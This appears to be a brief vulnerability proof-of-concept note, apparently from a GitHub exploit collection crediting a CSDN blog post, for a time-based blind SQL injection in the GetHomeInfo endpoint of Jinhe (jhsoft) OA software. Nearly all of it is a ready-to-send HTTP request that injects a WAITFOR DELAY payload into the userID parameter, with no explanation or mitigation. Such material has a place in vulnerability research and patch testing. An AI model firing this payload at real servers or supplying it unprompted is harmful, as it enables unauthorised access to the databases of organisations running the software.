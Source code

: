 # jinhe_GetHomeInfo_sql


2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135473073?spm=1001.2014.3001.5502
@2

```
GET /c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=1'%3b+WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
